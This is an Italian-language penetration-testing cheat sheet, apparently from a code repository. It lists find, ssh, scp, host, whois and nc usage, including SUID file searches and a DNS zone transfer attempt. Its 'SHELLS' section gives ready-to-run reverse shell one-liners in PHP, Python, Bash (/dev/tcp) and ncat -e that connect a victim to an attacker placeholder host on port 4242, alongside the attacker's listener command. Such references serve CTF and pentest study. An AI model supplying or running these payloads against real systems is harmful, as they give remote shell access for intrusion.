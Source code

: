 # LISTA COMANDI UTILI

1. ###### find
   è il comando usato per trovare un file seguendo certi criteri
	- `find /`: inizia a cercare da root
	- `-user user1`: cerca file creato da utente user1
	- `-group group1`: cerca file creato da gruppo group1
	- `-size +6c -size -10c`: cerca file con dimensione maggiore di 6byte e minori di 10 byte
	- `-perm 4000`: cerca file con permessi utente root, se 2000 file avviato con privilegi del gruppo invece, che potrebbe essere root

2. ###### ssh
   è il comando per potersi collegare ad un computer in remoto
	- `ssh username@hostname`: connettiti ad IP = hostname usando username per credenziale d'accesso
	- `-p 2020`: utilizza la porta 2020 per la connessione

4. ###### scp
   è il comando per trasferire file usando ssh
	- `scp username@hostname:/percorso/origine /percorso/destinazione/nome_file_di_destinazione`: prendi file dalla connessione ssh e salvalo in locale con nome nome_file_di_destinazione
	- `-r`: copia una intera directory

5. ###### host
   è il comando utilizzato per eseguire query DNS e ottenere informazioni sui nomi di dominio.
	- **`-t ns`**: specifica il tipo di record DNS che desideri ottenere. In questo caso, "ns" sta per "nameserver", quindi stai chiedendo di ottenere informazioni sui server dei nomi del dominio
	- **`-t mx`**: specifica il tipo di record DNS richiesto, in questo caso, "mx" per i record di scambio di posta (Mail Exchange)
	- `-l hostname.com nsztm2.digi.ninja`: prova un DNS Zone Transfer, utile per altre informazioni

6. ###### whois
   è il comando per vedere informazioni sul possesso di un dominio o di un indirizzo IP. Potrebbe interessarti il "Name Server" per DNS Zone Transfer
	`whois esempio.com`: vedi le informazioni di esempio.com

7. ###### nc
    utile per creare client/server rapidamente. Ottimo per mandare i comandi alla macchina che stiamo attaccando
- ```nc -l 1234```: inizia ad ascoltare nella porta 1234
- ```nc 127.0.0.1 1234```: connettiti alla macchina con indirizzo 127.0.0.1 alla porta 1234


# SHELLS
### Reverse shell
Nella reverse shell è l'attacker che si mette in listening e la vittima si collega, quindi

### ATTACCANTE:

```
ncat -lvnp 4242
```

### VITTIMA:

#### php
```
php -r '$sock=fsockopen("IP_ATTACCANTE",4242);shell_exec("sh <&3 >&3 2>&3");'
```

#### python3
```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP_ATTACCANTE",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

#### bash

```
bash -i >& /dev/tcp/IP_ATTACCANTE/4242 0>&1
```

```
0<&196;exec 196<>/dev/tcp/IP_ATTACCANTE/4242; sh <&196 >&196 2>&196
```

```
/bin/bash -l > /dev/tcp/IP_ATTACCANTE/4242 0<&1 2>&1
```

#### netcat
```
ncat 10.0.0.1 4242 -e /bin/bash
```


